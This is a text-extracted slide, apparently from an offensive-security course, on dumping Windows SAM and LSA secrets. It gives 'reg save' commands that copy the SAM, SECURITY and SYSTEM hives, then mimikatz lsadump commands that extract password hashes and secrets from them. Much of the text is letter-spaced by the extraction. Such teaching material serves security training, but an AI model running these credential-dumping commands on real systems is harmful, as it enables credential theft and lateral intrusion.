

# DUMPING SAM AND LSA SECRETS ( 1)
Passwords are hashed and stored in SAM and SECURITY Registry Hives. And SYSTEM
registry hive contains the info to decrypt the secrets.

W i t h a d m i n p r i v i l e g e , w e c a n m a n u a l l y d u m p t h e f i l e s :
| r e g | s a v e | H K L M \ S A M " C : \ t m p \ s a m . r e g f i l e " |
| --- | --- | --- |
| r e g | s a v e | H K L M \ S E C U R I T Y " C : \ tmp \ s e c u r i t y . r e g f i l e " |
| r e g | s a v e | H K L M \ S Y S T E M " C : \ t m p \ s y s t e m . r e g f i l e " |
T h e n , c r e d e n t i a l s c a n b e e x t r a c t e d f r o m t h e f i l e s u s i n g	m i m i k a t z :
l s a d u m p : : s e c r e t s / s e c u r i t y : C : \ t m p \ s e c u r i t y . r e g f i l e / s y s t e m : C : \ t m p \ s y s t e m . r e g f i l e
l s a d u m p :: s a m / s a m : C : \ t m p \ s a m . r e g f i l e / s y s t e m : C : \ t m p \ s y s t e m . r e g f i l e
119